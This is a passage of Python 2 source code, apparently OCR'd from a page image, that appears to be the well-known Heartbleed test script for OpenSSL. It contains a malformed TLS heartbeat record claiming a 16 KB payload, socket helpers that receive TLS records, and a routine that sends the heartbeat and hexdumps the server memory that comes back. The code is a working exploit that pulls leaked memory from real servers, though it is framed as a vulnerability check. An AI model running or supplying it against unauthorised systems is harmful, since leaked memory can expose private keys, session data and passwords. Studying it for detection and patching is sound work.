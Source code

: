 ```
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time() 
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
        

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
```